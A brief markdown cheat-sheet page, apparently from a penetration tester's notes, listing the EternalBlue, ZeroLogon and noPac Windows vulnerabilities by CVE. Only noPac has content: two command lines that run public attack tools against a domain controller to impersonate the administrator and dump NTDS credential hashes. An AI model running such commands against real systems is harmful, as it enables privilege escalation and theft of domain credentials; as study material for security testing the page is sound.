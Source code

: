 # 9 Exploits
![[Global Vulnerabilities]]

## Known exploits
EternalBlue (CVE-2017-0144):

ZeroLogon (CVE-2020-1472):

noPac (CVE-2021-42278 & CVE-2021-42287):
```bash
python3 sam_the_admin.py -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>'
python3 noPac.py -use-ldap -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>' --impersonate administrator -dump # priv esc & dump NTDS
```